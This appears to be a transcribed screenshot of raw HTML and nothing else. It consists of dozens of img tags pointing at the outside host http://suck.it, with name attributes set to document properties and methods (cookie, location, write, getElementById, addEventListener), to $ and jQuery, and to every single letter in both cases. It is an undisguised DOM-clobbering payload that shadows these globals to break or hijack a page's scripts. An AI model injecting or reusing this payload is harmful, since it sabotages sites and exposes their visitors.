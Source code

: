 <img src="http://suck.it" name="cookie" />
<img src="http://suck.it" name="domain" />
<img src="http://suck.it" name="location" />
<img src="http://suck.it" name="body" />
<img src="http://suck.it" name="write" />
<img src="http://suck.it" name="title" />
<img src="http://suck.it" name="referrer" />
<img src="http://suck.it" name="open" />
<img src="http://suck.it" name="forms" />
<img src="http://suck.it" name="URL" />
<img src="http://suck.it" name="document" />
<img src="http://suck.it" name="history" />
<img src="http://suck.it" name="getElementById" />
<img src="http://suck.it" name="createElement" />
<img src="http://suck.it" name="querySelectorAll" />
<img src="http://suck.it" name="documentElement" />
<img src="http://suck.it" name="addEventListener" />
<img src="http://suck.it" name="createElement" />
<img src="http://suck.it" name="createElement" />
<img src="http://suck.it" name="a"/><img src="http://suck.it" name="b"/><img src="http://suck.it" name="c"/><img src="http://suck.it" name="d"/><img src="http://suck.it" name="e"/><img src="http://suck.it" name="f"/><img src="http://suck.it" name="g"/><img src="http://suck.it" name="h"/><img src="http://suck.it" name="i"/><img src="http://suck.it" name="j"/><img src="http://suck.it" name="k"/><img src="http://suck.it" name="l"/><img src="http://suck.it" name="m"/><img src="http://suck.it" name="n"/><img src="http://suck.it" name="o"/><img src="http://suck.it" name="p"/><img src="http://suck.it" name="q"/><img src="http://suck.it" name="r"/><img src="http://suck.it" name="s"/><img src="http://suck.it" name="t"/><img src="http://suck.it" name="u"/><img src="http://suck.it" name="v"/><img src="http://suck.it" name="w"/><img src="http://suck.it" name="x"/><img src="http://suck.it" name="y"/><img src="http://suck.it" name="z"/>
<img src="http://suck.it" name="$"/>
<img src="http://suck.it" name="jQuery"/>
<img src="http://suck.it" name="et"/>
<img src="http://suck.it" name="A"/><img src="http://suck.it" name="B"/><img src="http://suck.it" name="C"/><img src="http://suck.it" name="D"/><img src="http://suck.it" name="E"/><img src="http://suck.it" name="F"/><img src="http://suck.it" name="G"/><img src="http://suck.it" name="H"/><img src="http://suck.it" name="I"/><img src="http://suck.it" name="J"/><img src="http://suck.it" name="K"/><img src="http://suck.it" name="L"/><img src="http://suck.it" name="M"/><img src="http://suck.it" name="N"/><img src="http://suck.it" name="O"/><img src="http://suck.it" name="P"/><img src="http://suck.it" name="Q"/><img src="http://suck.it" name="R"/><img src="http://suck.it" name="S"/><img src="http://suck.it" name="T"/><img src="http://suck.it" name="U"/><img src="http://suck.it" name="V"/><img src="http://suck.it" name="W"/><img src="http://suck.it" name="X"/><img src="http://suck.it" name="Y"/><img src="http://suck.it" name="Z"/>
